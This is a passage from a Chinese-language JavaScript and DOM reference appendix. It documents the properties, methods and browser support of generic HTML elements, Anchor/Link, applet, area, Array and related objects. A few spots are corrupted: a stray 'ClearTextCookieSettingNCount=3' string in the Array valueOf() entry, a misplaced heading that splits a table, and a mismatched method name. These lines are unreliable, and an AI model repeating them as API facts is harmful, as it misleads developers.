- scrollHeight 数值只读值，指示元素内容区域的总高度（以像素为单位），无论屏幕上显示了多少内容。(IE4+)
- scrollLeft 数值，指示从对象左边缘到当前显示的最左侧边缘的距离（以像素为单位）。(IE4+)
- scrollTop 数值，指示从对象顶边缘到当前显示的最顶部边缘的距离（以像素为单位）。(IE4+)
- scrollWidth 数值只读值，指示对象内容区域的总宽度（以像素为单位），无论屏幕上显示了多少内容。(IE4+)
- sourceIndex 只读数字，指示元素在**document.[]**集合中的索引。(IE4+)
- style 指向元素内联**Style**对象的引用。(IE4+, N4+, DOM2)
- syncMaster 指定时间容器是否必须与元素同步。参见MSDN。(IE5.5+, SMIL)
- tabIndex 数值，指示对象的Tab键顺序。此属性值为正数的元素将按**tabIndex**升序（在任何其他元素之前）被Tab键选中。此属性值为零（默认值）的元素将按其在文档源代码中出现的顺序被Tab键选中。此属性值为负数的元素根本不会被Tab键选中。(IE4+)
- tagName 字符串，包含对象对应标签的名称，例如“H1”。(IE5.5+, MOZ/N6+, DOM1)
- tagUrn 字符串，包含对象XML命名空间的URN。(IE5+)
- timeContainer 设置或获取与元素关联的时间线类型。(IE5.5+, SMIL)
- title 字符串，包含元素的咨询性文本。(IE4+, MOZ/N6+, DOM1)
- uniqueID 为此元素自动生成的只读唯一**id**。(IE5+)

#### 方法

- addBehavior(*url*) 将字符串*url*引用的DHTML行为附加到元素上。(IE5+)
- addEventListener(*whichEvent*, *handler*, *direction*) 指示对象在类型由字符串*whichEvent*（例如"click"）给出的事件发生时，执行函数*handler*。*direction*是一个布尔值，指定触发阶段，**true**表示捕获，**false**表示冒泡。(MOZ/N6+, DOM2)
- appendChild(*newChild*) 将*newChild*追加到节点**childNodes[]**列表的末尾。(IE5+, MOZ/N6+, DOM1 Core)
- applyElement(*newElement* [, *where*]) 通过将一个元素封装在另一个元素内，将一个元素“应用”到另一个元素上。如果*where*省略或其值为"outside"，则*newElement*引用的对象将成为当前元素的父元素。否则，*newElement*将成为当前元素的唯一子元素，封装当前元素的所有子元素。(IE5+)
- attachEvent(*whichHandler*, *theFunction*) 将函数*theFunction*作为由字符串*whichHandler*（例如"onclick"）指定的处理程序附加。(IE5+)
- blur() 使元素失去焦点。(大多数元素支持IE5+。对于表单字段，支持N2+或N3+以及IE3+或IE4+和DOM1，已为每个对象具体列出)
- clearAttributes() 从元素中清除所有非必要的HTML属性（保留**id**、**dir**等）。(IE5+)
- click() 在对象上模拟鼠标点击。(IE4+)
- cloneNode(*cloneChildren*) 克隆节点并返回新的克隆。如果*cloneChildren*为**true**，则返回的节点包含节点子节点的递归构建克隆子树。(IE5+, MOZ/N6+, DOM1 Core)
- componentFromPoint(*x*, *y*) 返回一个字符串，提供关于客户窗口中像素坐标(*x,y*)相对于当前元素的信息。返回的字符串可能具有下表中的某个值。返回值指定坐标是在元素内部("")、外部("outside")，还是元素可能显示的各种滚动机制的一部分。

| 返回值 | 给定坐标处的组件 |
| --- | --- |
| "" | 组件位于对象的客户区内。 |
| "outside" | 组件位于对象边界之外。 |
| "scrollbarDown" | 向下滚动箭头位于指定位置。 |
| "scrollbarHThumb" | 水平滚动滑块或方框位于指定位置。 |
| "scrollbarLeft" | 向左滚动箭头位于指定位置。 |
| "scrollbarPageDown" | 向下翻页滚动条轴位于指定位置。 |
| "scrollbarPageLeft" | 向左翻页滚动条轴位于指定位置。 |
| "scrollbarPageRight" | 向右翻页滚动条轴位于指定位置。 |
| "scrollbarPageUp" | 向上翻页滚动条轴位于指定位置。 |
| "scrollbarRight" | 向右滚动箭头位于指定位置。 |
| "scrollbarUp" | 向上滚动箭头位于指定位置。 |
| "scrollbarVThumb" | 垂直滚动滑块或方框位于指定位置。 |
| "handleBottom" | 底部大小调整手柄位于指定位置。 |
| "handleBottomLeft" | 左下角大小调整手柄位于指定位置。 |
| "handleBottomRight" | 右下角大小调整手柄位于指定位置。 |
| "handleLeft" | 左侧大小调整手柄位于指定位置。 |


#### 属性

此对象除本附录开头列出的 **Generic HTML Element** 对象中的属性外，还具有以下属性：

| 返回值 | 给定坐标处的组件 |
|---|---|
| "handleRight" | 右侧大小调整手柄位于指定位置。 |
| "handleTop" | 顶部大小调整手柄位于指定位置。 |
| "handleTopLeft" | 左上角大小调整手柄位于指定位置。 |
| "handleTopRight" | 右上角大小调整手柄位于指定位置。 |

此方法通常与事件配合使用，用于确定用户活动相对于特定元素的位置，并基于滚动条操作执行特殊动作。(IE5+)

- **contains**(element) 返回一个布尔值，指示 *element* 中给出的对象是否包含在该元素内。(IE4+)
- **detachEvent**(*whichHandler*, *theFunction*) 指示对象停止以字符串 *whichHandler*（例如 "onclick"）指定的处理程序来执行函数 *theFunction*。(IE5+)
- **dispatchEvent**(event) 使对象的相应处理程序处理 **Event** 实例 *event*。用于重定向事件。(MOZ/N6+, DOM2)
- **dragDrop()** 在元素上启动拖放事件。(IE5.5+)
- **fireEvent**(handler [, event]) 使字符串 *handler* 指定的事件处理程序触发。如果将 **Event** 实例作为 *event* 传入，则创建的新事件将反映 *event* 的属性。(IE5.5+)
- **focus()** 使元素获得焦点。

**getAdjacentText**(where) 返回与当前节点中位置 *where* 处的文本字符串相对应的文本字符串。*where* 参数是一个字符串，具有以下值：

| where 的值 | 返回的字符串 |
|---|---|
| "beforeBegin" | 紧接在元素开始标签之前的文本（回溯至但不包括遇到的第一个元素）。 |
| "afterBegin" | 紧接在元素开始标签之后的文本（到但不包括第一个嵌套元素）。 |
| "beforeEnd" | 紧接在元素结束标签之前的文本（回溯至但不包括最后一个包含元素的结束标签）。 |
| "afterEnd" | 紧接在元素结束标签之后的文本（到但不包括下一个标签）。 |

没有标准 DOM 方法可以模拟此行为。相反，您必须检查 **previousSibling**、**firstChild**、**lastChild** 或 **nextSibling**（按上表中 *where* 值的对应顺序），并从其文本节点中手动提取字符串。(IE5+)

- **getAttribute**(name) 返回一个字符串，包含字符串 *name* 中指定的属性的值，如果该属性不存在则返回 *null*。(IE4+, MOZ/N6+, DOM1 Core)
- **getAttributeNode**(name) 返回与字符串 *name* 中的属性相对应的属性节点。(IE6+, MOZ/N6+, DOM1 Core)
- **getBoundingClientRect()** 检索一个具有 **top**、**bottom**、**left**、**right** 属性的 **TextRectangle**，表示元素内容所包含的矩形的像素值。(IE5+)
- **getClientRects()** 检索一个 **TextRectangle** 对象的集合，提供元素中所有边界矩形的像素坐标。(IE5+)
- **getElementsByTagName**(tagname) 检索与字符串 *tagname* 中给出的标签相对应的元素集合。值为 "*" 时检索所有标签。(IE5+, MOZ/N6+, DOM1 Core)
- **getExpression**(propertyName) 检索为名为 *propertyName* 的属性/属性提供动态属性表达式的字符串。(IE5+)
- **hasAttribute**(name) 返回一个布尔值，指示节点是否（显式地或通过默认方式）定义了字符串 *name* 中给出的属性。(MOZ/N6+, DOM2 Core)
- **hasAttributes()** 返回一个布尔值，指示节点是否定义了任何属性。(MOZ/N6+, DOM2 Core)
- **hasChildNodes()** 返回一个布尔值，指示节点是否有子节点。(IE5+, MOZ/N6+, DOM1 Core)
- **insertAdjacentElement(*where*, *element*)** 在字符串 *where* 指定的位置，将 *element* 中给出的元素对象插入到当前元素的相邻位置 (IE5+)。*where* 的可能值包括：

| *where* 的值 | 效果 |
|---|---|
| "beforeBegin" | 紧接在对象之前插入。 |
| "afterBegin" | 在对象的起始位置之后但在所有其他内容之前插入。 |
| "beforeEnd" | 紧接在对象的末尾之前，在所有其他内容之后插入。 |
| "afterEnd" | 紧接在对象的末尾之后插入。 |

- **insertAdjacentHTML(*where*, *text*)** 根据字符串 *where*，将字符串 *text* 中给出的 HTML 插入到当前元素的相邻位置。有关此参数的含义，请参见 **insertAdjacentElement()** 下的表格。*text* 被解析并添加到文档树中。(IE5+)
- **insertAdjacentText(*where*, *text*)** 根据字符串 *where*，将字符串 *text* 中给出的文本插入到当前元素的相邻位置。有关此参数的含义，请参见 **insertAdjacentElement()** 下的表格。*text* 不会被解析为 HTML。(IE5+)
- **insertBefore(*newChild*, *refChild*)** 在 *refChild* 父节点的 **childNodes[]** 列表中，将节点 *newChild* 插入到 *refChild* 之前。(IE5+, MOZ/N6+, DOM1 Core)
- **isSupported(*feature* [, *version*])** 返回一个布尔值，指示参数字符串中给出的功能和版本是否受支持。(MOZ/N6+, DOM2 Core)
- **mergeAttributes(*source* [, *preserve*])** 将元素节点 *source* 中的所有属性、样式和事件处理程序合并到当前元素中。(IE5+)
- **normalize()** 递归合并以该元素为根的子树中的相邻文本节点。(IE6+, MOZ/N6+, DOM1 Core)
- **releaseCapture()** 禁用该对象上的全局鼠标事件捕获。(IE5+)
- **removeAttribute(*name*)** 从节点中移除与字符串 *name* 对应的属性。(IE4+, MOZ/N6+, DOM1 Core)
- **removeAttributeNode(*attribute*)** 移除节点 *attribute* 给出的属性节点，并返回被移除的节点。(IE6+, MOZ/N6+, DOM1 Core)
- **removeBehavior(*id*)** 从元素中移除与 *id* 关联的 DHTML 行为（之前由 **attachBehavior()** 返回）。(IE4+)
- **removeChild(*oldChild*)** 从节点的子节点中移除 *oldChild*，并返回对被移除节点的引用。(IE5+, MOZ/N6+, DOM1 Core)
- **removeEventListener(*whichEvent*, *handler*, *direction*)** 移除函数 *handler* 作为字符串 *whichEvent*（例如 "click"）指定的事件的处理程序，用于布尔值 *direction* 指定的阶段。(MOZ/N6+, DOM2)
- **removeExpression(*propertyName*)** 移除字符串 *propertyName* 中给出的属性的动态属性表达式。(IE5+)
- **replaceAdjacentText(*where*, *text*)** 将当前节点相对位置 *where* 处的文本替换为（非 HTML）文本字符串 *text* (IE5+)。*where* 的可能值包括：

| *where* 的值 | 效果 |
|---|---|
| "beforeBegin" | 替换紧接在对象之前的文本（回溯至但不包括遇到的第一个标签或结束标签）。 |
| "afterBegin" | 替换对象起始位置但在所有其他包含内容之前的文本（到但不包括第一个开始标签）。 |
| "beforeEnd" | 替换紧接在对象末尾之前、在所有其他内容之后的文本（回溯至但不包括最后一个标签或关闭标签）。 |
| "afterEnd" | 替换紧接在元素结束标签之后的文本（到但不包括下一个标签）。 |

- **replaceChild(*newChild*, *oldChild*)** 用节点 *newChild* 替换节点的子节点 *oldChild*。(IE5+, MOZ/N6+, DOM1 Core)
- **replaceNode(*newNode*)** 用 *newNode* 替换当前节点。(IE5+)
- **scrollIntoView([*alignToTop*])** 使对象立即滚动到窗口的可视区域。如果 *alignToTop* 为 **true** 或省略，则对象的顶部与窗口的顶部对齐（如果可能）。否则，如果 *alignToTop* 为 **false**，则滚动对象使对象的底部与可视窗口的底部对齐。(IE4+)
- **setActive()** 将对象设置为活动对象，但不赋予其焦点。(IE5.5+)
- **setAttribute(*name*, *value*)** 使用字符串参数给出的名称和值为节点设置新属性。(IE4+, MOZ/N6+, DOM1 Core)
- **setAttributeNode(*newAttr*)** 添加属性节点 *newAttr*（替换并返回同名的任何属性节点）。(IE6+, MOZ/N6+, DOM1 Core)
- **setCapture([*containerCapture*])** 使文档中发生的所有鼠标事件都发送到此对象。(IE5+)
- **setExpression(*property*, *expression* [, *language*])** 将字符串 *expression* 中给出的表达式设置为字符串 *property* 中给出的属性的动态表达式。可选的 *language* 参数指定 *expression* 使用的脚本语言，例如 "VBscript"（默认为 JScript）。通常用作元素节点和 **Style** 对象的方法，用于设置动态表达式。(IE5+)
- **swapNode(*node*)** 在对象层次结构中与 *node* 交换位置。(IE5+)
- **unwatch(*property*)** 移除字符串 *property* 中给出的属性的监视点。(N4+)
- **watch(*property*, *handler*)** "监视"字符串 *property* 中给出的属性，并在值发生变化时调用函数 *handler*。*handler* 会收到属性的名称、旧值和正在设置的新值。函数返回的任何值都被解释为属性的新值。(N4+)

#### 备注

- 除了在传统模型下可脚本化的对象（**Form**、**Image** 等）之外，大多数元素在 Internet Explorer 4+、Mozilla/Netscape 6+ 和 DOM1 中变为可脚本化。
- HTML 元素在 DOM 中同时以大写和小写形式引用，因此 <p> 和 <P> 都等同于 **HTMLParagraph** 对象。

### a、Anchor、Link、HTMLAnchorElement（文档对象）

在传统模型中，指定 **name** 属性的 <a> 标签（称为 **Anchor**）和指定 **href** 属性的 <a> 标签（称为 **Link**）是不同的对象。这种命名方式已经过时，随着 DOM 的兴起，二者已不再区分。现代浏览器通常将 **Anchor** 和 **Link** 合并为一个更合适的对象，对应于页面上的任何 <a> 元素，并在定义了相关属性时填充 **Anchor** 或 **Link** 相关的属性。在下面的列表中，我们明确标注了在传统对象模型中仅在 **Anchor** 或 **Link** 中可用的属性和方法。

通过标准 DOM 方法（如 **document.getElementById()**）可以访问这些对象。此外，您还可以通过 **Document** 的 **anchors[]** 集合访问设置了 **name** 属性的 <a> 元素，以及通过 **links[]** 集合访问设置了 **href** 属性的元素。

#### 属性

此对象除本附录开头列出的 **Generic HTML Element** 对象中的属性外，还具有以下属性：

- **accessKey** 表示使元素获得焦点的快捷键的单字符字符串。(IE4+, MOZ/N6+, DOM1)
- **charset** 表示链接文档字符集的字符串。(IE6+, MOZ/N6+, DOM1)
- **coords** 定义对象坐标的字符串（逗号分隔的列表），与 **shape** 属性配合使用。但没有默认功能。(IE6+, MOZ/N6+, DOM1)


 - **dataFld** 字符串，指定数据源的哪个字段绑定到该元素。(IE4+)
- **dataFormatAs** 字符串，指示元素如何处理提供给它的数据。(IE4+)
- **dataSrc** 字符串，包含数据绑定的数据来源。(IE4+)
- **disabled** 布尔值，指示元素是否被禁用（显示为灰色）。(IE4+)
- **hash** 字符串，保存 **href** 中 URL 位于井号 (**#**) 之后的部分。在传统模型中为 **Link** 定义。(IE3+, N2+, MOZ)
- **host** 字符串，保存 **href** 中 URL 的域名和端口部分。在传统模型中为 **Link** 定义。(IE3+, N2+, MOZ)
- **hostname** 字符串，保存 **href** 中 URL 的域名部分。在传统模型中为 **Link** 定义。(IE3+, N2+, MOZ)
- **href** 字符串，保存 **href** 属性的值，即链接激活时要加载的文档。在传统模型中为 **Link** 定义。(IE3+, N2+, MOZ, DOM1)
- **hreflang** 字符串，指示链接资源的语言代码。(MOZ/N6+, IE6+, DOM1)
- **media** 字符串，指示链接的媒体类型。目前不受支持。(DOM1)
- **name** 字符串，包含 **name** 属性的值。在传统模型中为 **Anchor** 定义。在某些浏览器中这是只读值。(IE3+, N4+, MOZ, DOM1)
- **nameProp** 字符串，保存 **href** 中 URL 的文件名部分。(IE5+)
- **pathname** 字符串，保存 **href** 中 URL 的路径和文件名部分（包括前导斜杠）。在传统模型中为 **Link** 定义。(IE3+, N2+, MOZ)
- **port** 字符串，保存 **href** 中 URL 的端口号部分。在传统模型中为 **Link** 定义。(IE3+, N2+, MOZ)
- **protocol** 字符串，保存 **href** 中 URL 的协议部分。在传统模型中为 **Link** 定义。(IE3+, N2+, MOZ)
- **protocolLong** 只读字符串，保存 **href** 中 URL 所用协议的完整名称。在传统模型中为 **Link** 定义。(IE4+)
- **rel** 字符串，保存元素的 **rel** 属性值。用于指定文档之间的关系，但目前大多数浏览器忽略此项。(IE4+, MOZ/N6+, DOM1)
- **rev** 字符串，保存元素的 **rel** 属性值。用于指定文档之间的关系。目前大多数浏览器忽略此属性的使用。(IE4+, MOZ/N6+, DOM1)
- **search** 字符串，保存 **href** 中 URL 位于问号之后的部分（即查询字符串）。在传统模型中为 **Link** 定义。(IE3+, N2+, MOZ/N6+)
- **shape** 字符串，定义对象的形状。(IE6+, MOZ/N6+, DOM1)
- **tabIndex** 数值，指示对象的 Tab 键顺序。(IE4+, MOZ/N6+, DOM1)
- **target** 指定引用框架的超文本源链接的目标窗口。(IE3+, N2+, MOZ, DOM1)
- **text** 只读字符串，指定 `<a></a>` 标签包围的文本。在传统模型中为 **Anchor** 定义。更适合通过 DOM 方法访问。(N4+)
- **type** 指定链接目标的媒体类型，格式为 MIME 类型。(IE6+, MOZ/N6+, DOM1)
- **urn** 定义目标文档的 URN。(IE4+)
- **x** **Anchor** 的只读 *x* 坐标，以像素为单位，相对于文档的左边缘。(N4)
- **y** **Anchor** 的只读 *y* 坐标，以像素为单位，相对于文档的上边缘。(N4)

#### 方法

该对象具有本附录开头的**通用 HTML 元素**对象中列出的方法，此外还有以下方法：

- **blur()** 使元素失去焦点。(IE4+, MOZ/N6+, DOM1)
- **handleEvent(*event*)** 使 **Event** 实例 *event* 由对象的适当处理程序处理。(N4)
- **focus()** 使元素获得焦点。(IE4+, MOZ/N6+, DOM1)

#### 支持

支持于 Internet Explorer 3+、Netscape 2+、Mozilla、DOM1。

### abbr, HTMLElement（文档对象）

该对象对应于文档中的 **<abbr>**（缩写）标签。通过标准 DOM 方法（如 **document.getElementById()**）访问此对象。

#### 属性

该对象仅具有本部分开头的**通用 HTML 元素**对象中定义的属性。

#### 方法

该对象仅具有本部分开头的**通用 HTML 元素**对象中列出的方法。

#### 支持

支持于 IE4+、MOZ/N6+、DOM1。

#### 说明

你可能会看到 Mozilla 等浏览器将此对象识别为 **HTMLSpanElement**，尽管 DOM 中不存在这样的对象。正确的指示是 **HTMLElement**，不过 Internet Explorer 仅将其指示为通用对象。

### acronym, HTMLElement（文档对象）

该对象对应于文档中的 **<acronym>** 标签。通过标准 DOM 方法（如 **document.getElementById()**）访问此对象。

#### 属性

该对象仅具有本部分开头的**通用 HTML 元素**对象中定义的属性。

#### 方法

该对象仅具有本部分开头的**通用 HTML 元素**对象中列出的方法。

#### 支持

支持于 IE4+、MOZ/N6+、DOM1。

#### 说明

你可能会看到 Mozilla 等浏览器将此对象识别为 **HTMLSpanElement**，尽管 DOM 中不存在这样的对象。正确的指示是 **HTMLElement**，不过 Internet Explorer 仅将其指示为通用对象。

### ActiveXObject（专有内置对象）

**ActiveXObject** 对象通过允许在 Windows 中实例化 COM 对象，提供对扩展操作系统或应用程序功能的访问。我们在第 21 章简要介绍了此对象，但有关此对象的完整文档请参阅 MSDN 上的 Microsoft 文档。

#### 构造函数

```
var *instanceName* = new **ActiveXObject**("*servername*.*typename*");
```

*servername* 是实现 COM 对象 *typename* 的自动化服务器的名称。

#### 支持

支持于 IE3+ (JScript 1.0+)。

#### 说明

这不是 ECMAScript 对象。它是 Microsoft 专有的内置对象。

### address, HTMLElement（文档对象）

该对象对应于文档中的 `<address>` 标签。通过标准 DOM 方法（如 `document.getElementById()`）访问此对象。

#### 属性

该对象仅具有本部分开头的**通用 HTML 元素**对象中定义的属性。

#### 方法

该对象仅具有本部分开头的**通用 HTML 元素**对象中列出的方法。

#### 支持

支持于 IE4+、MOZ/N6+、DOM1。

#### 说明

你可能会看到 Mozilla 等浏览器将此对象识别为 **HTMLSpanElement**，尽管 DOM 中不存在这样的对象。正确的指示是 **HTMLElement**，不过 Internet Explorer 仅将其指示为通用对象。

### applet, HTMLAppletElement（文档对象）

**applet** 对象对应于文档中的 `<applet>`（Java 小程序）标签。通过标准 DOM 方法（例如 `document.getElementById()`）或 **Document** 的 **applets[]** 集合访问此对象。

#### 属性

该对象具有此处列出的属性，此外还有本部分开头的**通用 HTML 元素**对象中的属性。它还具有该类暴露的任何公共属性。

- **align** 字符串，指定元素的对齐方式，例如 "left"。(IE4+, MOZ/N6+, DOM1)
- **alt** 字符串，指定小程序的替代文本。(IE6, MOZ/N6+, DOM1)
- **altHtml** 字符串，指定小程序无法加载时的替代标记。(IE4+)
- **archive** 字符串，包含逗号分隔的 URL 列表，给出小程序需要的、应预加载的类。(IE6, MOZ/N6+, DOM1)
- **code** 字符串，包含 Java 小程序类文件的 URL。(IE4+, MOZ/N6+, DOM1)


 - **codeBase** 包含小程序基础 URL 的字符串（用于相对链接）。(IE4+, MOZ/N6+, DOM1)
- **dataFld** 指定数据源中哪个字段绑定到该元素的字符串。(IE4+)
- **dataFormatAs** 指示元素如何处理提供给它的数据的字符串。(IE4+)
- **dataSrc** 包含数据绑定数据源的字符串。(IE4+)
- **height** 以像素为单位指定对象高度的字符串。(IE4+, MOZ/N6+, DOM1)
- **hspace** 指定小程序左右水平边距的字符串。(IE4+, MOZ/N6+, DOM1)
- **name** 保存小程序 **name** 属性的字符串。(IE4+, MOZ/N6+, DOM1)
- **src** 指定小程序 URL 的字符串。非标准属性，应避免使用。(IE4+)
- **object** 包含包含小程序序列化表示的资源名称的字符串。**code** 或 **object** 两者择一使用，不能同时使用。(IE4+, MOZ/N6+, DOM1)
- **vspace** 指定小程序上下垂直边距的字符串。(IE4+, MOZ/N6+, DOM1)
- **width** 以像素为单位指定对象宽度的属性。(IE4+, MOZ/N6+, DOM1)

#### 方法

该对象具有本部分开头列出的 **Generic HTML Element** 对象的方法。它还将拥有小程序暴露的任何公共方法。参见第 18 章的相关示例。

#### 支持

支持 Internet Explorer 4+、Netscape 3+、Mozilla、DOM1。

### area, HTMLAreaElement（文档对象）

该对象对应于文档中的 **&lt;area&gt;**（客户端图像映射）标签。通过标准 DOM 方法访问此对象（例如，**document.getElementById()** 或通过封闭 **HTMLMapElement** 对象的 **areas[]** 数组）。大多数浏览器还应在 **Document** 的 **links[]** 数组中显示 **area** 对象。

#### 属性

该对象除了本部分开头列出的 **Generic HTML Element** 对象的属性外，还具有以下属性：

- **accessKey** 指示使元素获得焦点的热键的单字符字符串。(IE4+, MOZ/N6+, DOM1)
- **alt** 定义图形替代文本的字符串。(IE4+, MOZ/N6+, DOM1)
- **coords** 定义对象坐标（逗号分隔）的字符串，与 **shape** 属性一起使用。(IE6+, MOZ/N6+, DOM1)
- **hash** 保存 **href** 中哈希标记 (#) 之后 URL 部分的字符串。(IE3+, N3+, MOZ)
- **host** 保存 **href** 中域名和端口部分的字符串。(IE3+, N3+, MOZ)
- **hostname** 保存 **href** 中域名部分的字符串。(IE3+, N3+, MOZ)
- **href** 保存 **href** 属性值的字符串，即激活链接时要加载的文档。(IE3+, N3+, MOZ, DOM1)
- **noHref** 指示此区域的链接是否禁用的布尔值。(IE3+, MOZ/N6+, DOM1)
- **pathname** 保存 **href** 中路径和文件名部分的字符串（包括前导斜杠）。在传统模型中为 **Link** 定义。(IE3+, N2+, MOZ)
- **port** 保存 **href** 中端口号的字符串。(IE3+, N3+, MOZ)
- **protocol** 保存 **href** 中协议部分的字符串。(IE3+, N3+, MOZ)
- **search** 保存 **href** 中问号之后的 URL 部分的字符串（也称为查询字符串）。(IE3+, N3+, MOZ)
- **shape** 定义对象形状的字符串，通常为 "default"（整个区域）、"rect"（矩形）、"circle"（圆形）或 "poly"（多边形）。(IE4+, MOZ/N6+, DOM1)
- **tabIndex** 指示对象 Tab 键顺序的数值。(IE4+, MOZ/N6+, DOM1)
- **target** 指定引用框架的超文本源链接的目标窗口。(IE3+, N3+, MOZ, DOM1)
- **x** 此 Netscape 4 专用属性为只读，包含链接相对于文档左边缘的 *x* 坐标（以像素为单位）。(N4)
- **y** 此 Netscape 4 专用属性为只读，包含链接相对于文档上边缘的 *y* 坐标（以像素为单位）。(N4)

#### 方法

该对象除了本部分开头列出的 **Generic HTML Element** 对象的方法外，还具有以下方法：

- **handleEvent(event)** 使 **Event** 实例 *event* 由对象的适当处理程序处理。(仅 N4)

#### 支持

支持 Internet Explorer 3+、Netscape 3+、Mozilla、DOM1。

### Array（内置对象）

**Arrays**（数组）存储有序的数据列表。数据存储在以零开始的索引处，使用数组访问（[]）运算符访问。数组内存分配由解释器处理，因此无需显式调整数组大小以容纳更多数据。此外，数组允许是稀疏的，即存在任意数量未使用索引的"空穴"。任何未分配数据的索引的值均为 **undefined**，可寻址的最高索引为 **2<sup>32</sup> – 1**，因为索引在使用前会转换为无符号 32 位整数。JavaScript 数组是一维的，但由于数组元素可以是任何类型，因此多维数组是作为元素为数组的数组来支持的。

可以使用 **delete** 运算符显式从数组中移除值，但除了将持有其引用的变量设置为 **null** 外，无法销毁数组。

#### 构造函数

```
var instanceName = new Array([ val1 [, val2 [, val3 ... ] ] ]);
```

其中逗号分隔的值被视为数组索引 **0**、**1**、**2** 等的初始值。例外情况是如果只提供了单个数值参数，则数组的 **length** 属性会被设置为该值。

#### 属性

- **constructor** 对创建该对象的构造函数对象的引用。(IE4+ (JScript 2.0+), MOZ, N3+ (JavaScript 1.1+), ECMA Edition 1)
- **length** 指示数组末尾下一个空索引的数值（不是数组中元素的数量）。将此属性设置为小于当前值的值将使 **index** >= **length** 的任何元素变为 **undefined**。(IE4+ (JScript 2.0+), MOZ, N3+ (JavaScript 1.1+), ECMA Edition 1)
- **prototype** 对对象原型的引用。(IE4+ (JScript 2.0+), MOZ, N3+ (JavaScript 1.1+), ECMA Edition 1)

#### 方法

- **concat([item1 [, item2 [, ...]])** 将逗号分隔的项目列表追加到数组末尾并返回新数组（它不会就地操作数组）。如果任何项目是数组，则其第一级会被扁平化（即该项目的元素将作为单独的元素逐个追加）。(IE4+ (JScript 3.0+), MOZ, N4+ (JavaScript 1.2+), ECMA Edition 1)
- **join([separator])** 返回通过连接数组所有元素获得的字符串。如果提供了字符串 *separator*，则 *separator* 将放置于相邻元素之间。*separator* 默认为逗号。(IE4+ (JScript 2.0+), MOZ, N3+ (JavaScript 1.1+), ECMA Edition 1)
- **pop()** 移除数组的最后一个元素并将其返回。(IE5.5+ (JScript 5.5+), MOZ, N4+ (JavaScript 1.2+), ECMA Edition 3)
- **push([item1 [, item2 [, ...]]])** 将参数（按顺序）追加到数组末尾并返回新的 **length**。(IE5.5+ (JScript 5.5+), MOZ, N4+ (JavaScript 1.2+), ECMA Edition 3)
- **reverse()** 就地反转元素的顺序。(IE4+ (JScript 2.0+), MOZ, N3+ (JavaScript 1.1+), ECMA Edition 1)
- **shift()** 从数组中移除第一个元素，将其返回，并将所有其他元素向下移动一个索引。(IE5.5+ (JScript 5.5+), MOZ, N4+ (JavaScript 1.2+), ECMA Edition 3)
- **slice(begin [, end])** 返回包含从索引 *begin* 开始到但不包括索引 *end* 的元素的新数组。如果省略 *end*，则提取到数组末尾的所有元素。如果 *end* 为负数，则将其视为从数组末尾的偏移量。(IE4+ (JScript 3.0+), MOZ, N4+ (JavaScript 1.2+), ECMA Edition 3)
- **sort([compareFunc])** 就地按字典序对数组进行排序。可选参数 *compareFunc* 是一个可以更改排序行为的函数。它将被传递两个元素，如果第一个元素小于第二个元素则应返回负值，如果第二个元素小于第一个元素则应返回正值，如果它们相等则返回零。(IE4+ (JScript 2.0+), MOZ, N3+ (JavaScript 1.1+), ECMA Edition 1)
- **splice(start, howMany [, item1 [, item2 [, ...]]])** 从索引 *start* 开始从数组中移除 *howMany* 个元素，并用 *itemN* 参数（如果传入）替换移除的元素。返回包含已删除元素的数组。(IE5.5+ (JScript 5.5+), MOZ, N4+ (JavaScript 1.2+), ECMA Edition 3)
- **toString()** 返回包含逗号分隔的元素列表的字符串。(IE4+ (JScript 2.0+), MOZ, N3+ (JavaScript 1.1+), ECMA Edition 1)
- **unshift([item1 [, item2 [, ...]]])** 将项目（按顺序）插入数组前端，将现有值向上移动到更高的索引。(IE5.5+ (JScript 5.5+), MOZ, N4+ (JavaScript 1.2+), ECMA Edition 3)
- **valueOf()** 与 **toString()** 相同。(IE4+ (JScript 2.0+), MOZ, N3+ (JavaScriptClearTextCookieSettingNCount=3 (JavaScript 1.1+), ECMA Edition 1)

#### 支持

支持 IE4+ (JScript 2.0+)、Mozilla、N3+ (JavaScript 1.1+)、ECMAScript Edition 1。

#### 说明

在 Netscape 4.0–4.05 (JavaScript 1.2) 中，传递给构造函数的单个数值参数会被添加到单个数组元素中——它不会被当作 **length** 的初始值处理。

参见第 7 章中 **Array** 对象的众多示例。

### b, HTMLElement（文档对象）

该对象对应于文档中的 **<b>**（粗体文本）标签。通过标准 DOM 方法（如 **document.getElementById()**）访问此对象。

#### 属性

该对象仅具有本部分开头列出的 **Generic HTML Element** 对象定义的属性。

#### 方法

该对象仅具有本部分开头列出的 **Generic HTML Element** 对象的方法。


 ## 备注

你可能会看到 Mozilla 等浏览器将此对象标识为 **HTMLSpanElement**，尽管在 DOM 中并不存在这样的对象。正确的标识应为 **HTMLElement**，不过 Internet Explorer 仅将其标识为通用对象。

### base, HTMLBaseElement（文档对象）

该对象对应文档中的 **\<base\>**（基准 URL 指示器）标签。可以通过 **document.getElementById()** 等标准 DOM 方法来访问此对象。但是，由于该元素位于文档的 head 中，你可能需要使用 **document.documentElement.getElementsByTagName()** 或类似方法来访问它。

#### 属性

除本节前文所述的**通用 HTML 元素**对象的属性外，该对象还具有以下属性：

- **href** 字符串，包含 URL，页面上的所有相对 URL 都相对于该 URL 进行获取。（IE4+, MOZ/N6+, DOM1）
- **target** 字符串，包含页面上所有链接的目标窗口或框架的名称。（IE4+, MOZ/N6+, DOM1）

#### 方法

该对象仅具有本节前文所述的**通用 HTML 元素**对象中列出的方法。

#### 支持

Internet Explorer 4+、Mozilla、Netscape 6+、DOM1 均支持。

### baseFont, HTMLBaseFontElement（文档对象）

该对象对应文档中的 **\<basefont\>**（默认字体）标签。可以通过 **document.getElementById()** 等标准 DOM 方法来访问此对象。但是，由于该元素位于文档的 head 中，你可能需要使用 **document.documentElement.getElementsByTagName()** 或类似方法来访问它。

#### 属性

除本节前文所述的**通用 HTML 元素**对象的属性外，该对象还具有以下属性：

- **color** 字符串，包含页面的默认文本颜色。（IE4+, MOZ/N6+, DOM1）
- **face** 字符串，包含一个或多个默认字体名称的逗号分隔列表。（IE4+, MOZ/N6+, DOM1）
- **size** 字符串，包含默认字体大小（HTML 1–7 或相对 +n/–n 语法）。（IE3+, MOZ/N6+, DOM1）

#### 方法

该元素仅具有本节前文所述的**通用 HTML 元素**对象中列出的方法。

#### 支持

在 HTML 4 和 XHTML 中已弃用，但 Internet Explorer 4+、Mozilla/Netscape 6+、DOM1 仍支持。

### bdo, HTMLElement（文档对象）

该对象对应文档中的 **\<bdo\>**（双向覆盖）标签。可以通过 **document.getElementById()** 等标准 DOM 方法来访问此对象。

#### 属性

该对象仅具有本节前文所述的**通用 HTML 元素**对象中定义的属性。

#### 方法

